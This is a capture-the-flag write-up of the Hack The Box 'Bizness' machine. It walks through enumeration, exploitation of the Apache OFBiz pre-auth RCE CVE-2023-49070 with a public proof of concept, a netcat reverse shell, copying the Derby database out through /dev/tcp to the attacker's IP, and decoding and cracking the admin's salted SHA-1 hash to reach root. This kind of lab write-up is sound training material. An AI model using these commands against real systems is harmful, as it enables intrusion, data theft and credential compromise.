

# Bizness



Machine: [https://app.hackthebox.com/machines/Bizness](https://app.hackthebox.com/machines/Bizness)

Created by: [C4rm3l0](https://app.hackthebox.com/users/458049)

Difficulty: Easy

OS: Linux

## Machine Info

Bizness is an easy Linux machine showcasing an Apache OFBiz pre-authentication, remote code execution (RCE) foothold, classified as [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070). The exploit is leveraged to obtain a shell on the box, where enumeration of the OFBiz configuration reveals a hashed password in the service's Derby database. Through research and little code review, the hash is transformed into a more common format that can be cracked by industry-standard tools. The obtained password is used to log into the box as the root user.

## Enumeration

### nmap

```shell
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.18.0
40287/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan reveals 4 ports.

- 22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
- 80/tcp    open  http       nginx 1.18.0
- 443/tcp   open  ssl/http   nginx 1.18.0
- 40287/tcp open  tcpwrapped

It also shows that port 80 and 443 is redirecting to `https://bizness.htb/`. So we add that to `/etc/hosts`.

```shell
labadmin@labmachine:~/bizness $ sudo bash -c "echo '10.10.11.252  bizness.htb' >> /etc/hosts"
```

### HTTPS bizness.htb

Navigating to `https://bizness.htb` takes us to web site belong to BizNess. 


In the page footer we find out it is powered by [Apache OFBiz](https://ofbiz.apache.org/).


### Directory Brute Force bizness.htb

Next we run feroxbuster to directory brute force

```shell
labadmin@labmachine:~/bizness $ feroxbuster -k -u https://bizness.htb -w ../tools/SecLists/Discovery/Web-Content/raft-sm
all-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://bizness.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ ../tools/SecLists/Discovery/Web-Content/raft-small-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        2l      247w     7083c https://bizness.htb/lib/jquery/jquery-migrate.min.js
200      GET        3l      148w     8159c https://bizness.htb/lib/wow/wow.min.js
200      GET        7l       27w     3309c https://bizness.htb/img/apple-touch-icon.png
200      GET      118l      332w     3375c https://bizness.htb/contactform/contactform.js
[...OMITTED...]
404      GET        1l       61w      682c https://bizness.htb/WEB-INF
200      GET      492l     1596w    34633c https://bizness.htb/control
200      GET      492l     1596w    34633c https://bizness.htb/content/control
200      GET      492l     1596w    34633c https://bizness.htb/catalog/control
404      GET        1l       61w      682c https://bizness.htb/catalog/WEB-INF
404      GET        1l       61w      682c https://bizness.htb/images/WEB-INF
404      GET        1l       61w      682c https://bizness.htb/content/WEB-INF
404      GET        1l       61w      682c https://bizness.htb/common/WEB-INF
[...OMITTED...]
```

We notice several endpoints containing a path for WEB-INF and that they return 404 response code.

Navigating to `https://bizness.htb/content/WEB-INF` we find out it is `Apache Tomcat/9.0.82`.


And if we navigate to `https://bizness.htb/content/` we are redirected to Apache OFBiz login page.


And the fotter reveals `Powered by Apache OFBiz. Release 18.12`.

## Foothold

Searching internet we find [https://nvd.nist.gov/vuln/detail/CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070). 

```text
Description
Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10.  Users are recommended to upgrade to version 18.12.10
```

The issue is related to a deprecated component within OFBiz, that accepts and handles XML-RPC requests. Handling insecure deserialization that allows an attacker to execute arbitrary code.

Digging further and we find a PoC [https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC)

Following the PoC to exploit the vulnerability we first download `ysoserial-all.jar`

```shell
labadmin@labmachine:~/bizness $ wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

Then we create a local `exploit.py` and paste the code from the PoC [https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py).

Executing the python script and we run into this error.

```shell
labadmin@labmachine:~/bizness $ python3 exploit.py https://bizness.htb rce id

        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
```

The ysoserial need java 11, so we make sure it is installed and set is as default by using `update-alternatives`.

```shell
labadmin@labmachine:~/bizness $ sudo update-alternatives --config java
```

Before we attempt to get a shell, we try send ICMP packets to our attacking machine by running ping command.

As first step we setup tcpdump to catch ICMP packets.

```shell
labadmin@labmachine:~/bizness $ sudo tcpdump -i tun0 icmp
```

Then we send ping from target machine to our attack machine using the script again.

```shell
labadmin@labmachine:~/bizness $ python3 exploit.py https://bizness.htb rce 'ping -c 1 10.10.14.35'
Not Sure Worked or not
```

Back the tcpdump and we see the ping.

```shell
labadmin@labmachine:~/bizness $ sudo tcpdump -i tun0 icmp
dropped privs to tcpdump
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:10:14.878583 IP bizness.htb > labmachine: ICMP echo request, id 61373, seq 1, length 64
06:10:14.878746 IP labmachine > bizness.htb: ICMP echo reply, id 61373, seq 1, length 64
```

Once we confirmed connectivity we setup a reverse shell.

Start local netcat listener.

```shell
labadmin@labmachine:~/bizness $ nc -lvnp 8000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8000
Ncat: Listening on 0.0.0.0:8000
```

Next we run the script with shell option.

```shell
labadmin@labmachine:~/bizness $ python3 exploit.py https://bizness.htb shell 10.10.14.35:8000
Not Sure Worked or not
```

We got reverse shell as `ofbiz`.

```shell
labadmin@labmachine:~/bizness $ nc -lvnp 8000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.11.252:57622.
bash: cannot set terminal process group (550): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
ofbiz@bizness:/opt/ofbiz$
```

The user flag we find under ofbiz home directory.

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt
cat /home/ofbiz/user.txt
[...OMITTED...]
```

## Privilege Escalation

### ofbiz enumeration

Walking throught the installation found in `/opt/ofbiz/` we find `security.properties` under `/opt/ofbiz/framework/security/config/`.

This file reveals SHA is used as password hash.

```shell
# -- specify the type of hash to use for one-way encryption, will be passed to java.security.MessageDigest.getInstance() --
# -- options may include: SHA, PBKDF2WithHmacSHA1, PBKDF2WithHmacSHA256, PBKDF2WithHmacSHA384, PBKDF2WithHmacSHA512 and etc
password.encrypt.hash.type=SHA
```

Further research reveals that by default OFBiz uses an embedded Java Database named Apache Derby.

And from docummentation `[https://cwiki.apache.org/confluence/display/OFBIZ/Browsing+Derby+Database+in+Eclipse](https://cwiki.apache.org/confluence/display/OFBIZ/Browsing+Derby+Database+in+Eclipse)` we find out that the files are stored under runtime.

```shell
ofbiz@bizness:/opt/ofbiz$ ls -l /opt/ofbiz/runtime/data/derby
ls -l /opt/ofbiz/runtime/data/derby
total 16
-rw-r--r-- 1 ofbiz ofbiz-operator 2320 May 30 00:03 derby.log
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 30 00:03 ofbiz
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 30 00:03 ofbizolap
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 30 00:03 ofbiztenant
```

To investigate the db we first transfer it locally.

Setting up local netcat listener.

```shell
labadmin@labmachine:~/bizness $ nc -lvnp 8001 > ofbiz.tar
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
```

Next we prepare and send the files.

```shell
ofbiz@bizness:/opt/ofbiz$ cd /opt/ofbiz/runtime/data/derby
cd /opt/ofbiz/runtime/data/derby
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ tar cvf ofbiz.tar ofbiz
tar cvf ofbiz.tar ofbiz
ofbiz/
ofbiz/service.properties
ofbiz/seg0/
ofbiz/seg0/c10001.dat
ofbiz/seg0/c7161.dat
[...OMITTED...]
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ cat ofbiz.tar > /dev/tcp/10.10.14.35/8001
<ta/derby$ cat ofbiz.tar > /dev/tcp/10.10.14.35/8001
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$
```

To open the local database we will use DBeaver in windows. So first we transfer the file to our windows environment.

Then we open DBeaver and select the database type as "Derby Embedded".


Followed to select the database folder.


We now find the ofbiz database in the tree view. Searching for user and we find admin user and hash under `USER_LOGIN` table, in the data tab.


We tried to run this hash through hashcat without result.

Doing research on the source code. In `HashCrypt.java` under `/opt/ofbiz/framework/base/src/main/java/org/apache/ofbiz/base/crypt/` we find `comparePassword` method. This method determines the hashing type of a provided password.

```java
public static boolean comparePassword(String crypted, String defaultCrypt, String password) {
    if (crypted.startsWith("{PBKDF2")) {
        return doComparePbkdf2(crypted, password);
    } else if (crypted.startsWith("{")) {
        return doCompareTypePrefix(crypted, defaultCrypt, password.getBytes(UtilIO.getUtf8()));
    } else if (crypted.startsWith("$")) {
        return doComparePosix(crypted, defaultCrypt, password.getBytes(UtilIO.getUtf8()));
    } else {
        return doCompareBare(crypted, defaultCrypt, password.getBytes(UtilIO.getUtf8()));
    }
}
```

From earlier we know it is a SHA password and starts with $ so we look on the second if statement that calls `doComparePosix method`.

```java
private static boolean doComparePosix(String crypted, String defaultCrypt, byte[] bytes) {
    int typeEnd = crypted.indexOf("$", 1);
    int saltEnd = crypted.indexOf("$", typeEnd + 1);
    String hashType = crypted.substring(1, typeEnd);
    String salt = crypted.substring(typeEnd + 1, saltEnd);
    String hashed = crypted.substring(saltEnd + 1);
    return hashed.equals(getCryptedBytes(hashType, salt, bytes));
}
```

This method parses the string into salt and hash and remaining bytes.

From this we know that `d` is salt and rest are the hashed bytes.

Looking on next method `getCryptedBytes`

```java
private static String getCryptedBytes(String hashType, String salt, byte[] bytes)
{
    try {
        MessageDigest messagedigest = MessageDigest.getInstance(hashType);
        messagedigest.update(salt.getBytes(UtilIO.getUtf8()));
        messagedigest.update(bytes);
        return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
    } catch (NoSuchAlgorithmException e) {
        throw new GeneralRuntimeException("Error while comparing password", e);
    }
}
```

A MessageDigest object is created and instantiated using SHA. It is then updated with the bytes of the salt in UTF8 encoding. Finally, it is updated using the
bytes of the password (plaintext). Its digest is then encoded using Base64URLSafeString , and then all + characters are replaced by period characters ( . ).

To transform this hash to use with hashcat we first need to decode. And since `encodeBase64URLSafeString` is imported from org.apache.commons.codec.binary.Base64 we need to replace characters accordingly as from documentation.

```shell
/**
* Encodes binary data using a URL-safe variation of the base64 algorithm but does
not chunk the output. The
* url-safe variation emits - and _ instead of + and / characters.
* <b>Note: no padding is added.</b>
* @param binaryData
* binary data to encode
* @return String containing Base64 characters
* @since 1.4
*/
public static String encodeBase64URLSafeString(final byte[] binaryData) {
    return StringUtils.newStringUsAscii(encodeBase64(binaryData, false, true));
}
```

We decode using python.

```shell
labadmin@labmachine:~/bizness $ python3
Python 3.12.3 (main, Apr 17 2024, 00:00:00) [GCC 14.0.1 20240411 (Red Hat 14.0.1-0)] on linux
Type "help", "copyright", "credits" or "license" for more information.
```

```python
>>> enc = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
>>> enc = enc.replace('_', '/')
>>> enc = enc.replace('-', '+')
>>> enc
'uP0/QaVBpDWFeo8+dRzDqRwXQ2I'
>>> import base64
>>> base64.b64decode(enc.encode('utf-8'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib64/python3.12/base64.py", line 88, in b64decode
    return binascii.a2b_base64(s, strict_mode=validate)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
binascii.Error: Incorrect padding
```

Since the padding for base64 is not correct we add a `=`.

```python
>>> enc += '='
>>> dec = base64.b64decode(enc.encode('utf-8'))
>>> dec
b'\xb8\xfd?A\xa5A\xa45\x85z\x8f>u\x1c\xc3\xa9\x1c\x17Cb'
```

And we finish converting the bytes to hex.

```python
>>> import binascii
>>> binascii.hexlify(dec)
b'[...OMITTED...]'
```

We now add it to a file and run through hashcat. Using -m 120 for SHA-1

```shell
labadmin@labmachine:~/bizness $ echo '[...OMITTED...]:d' > admin.hash
labadmin@labmachine:~/bizness $ hashcat -m 120 -a 0 admin.hash ../tools/rockyou/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0  Linux, Release, RELOC, SPIR, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
======================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700K CPU @ 4.00GHz, 2191/4446 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: ../tools/rockyou/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

[...OMITTED...]:d:[...OMITTED...]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 120 (sha1($salt.$pass))
Hash.Target......: b8fd3f41a541a435857a8f3e751cc3a91c174362:d
Time.Started.....: Thu May 30 07:54:33 2024 (2 secs)
Time.Estimated...: Thu May 30 07:54:35 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../tools/rockyou/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   843.5 kH/s (0.30ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1478656/14344384 (10.31%)
Rejected.........: 0/1478656 (0.00%)
Restore.Point....: 1476608/14344384 (10.29%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: moon7686 -> monkey-balls

Started: Thu May 30 07:54:06 2024
Stopped: Thu May 30 07:54:36 2024
```

We try it against root to see if the admin password been reused. And we get root and the root flag.

```shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
ofbiz@bizness:/opt/ofbiz$ su - root
su - root
Password:

id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
[...OMITTED...]
```
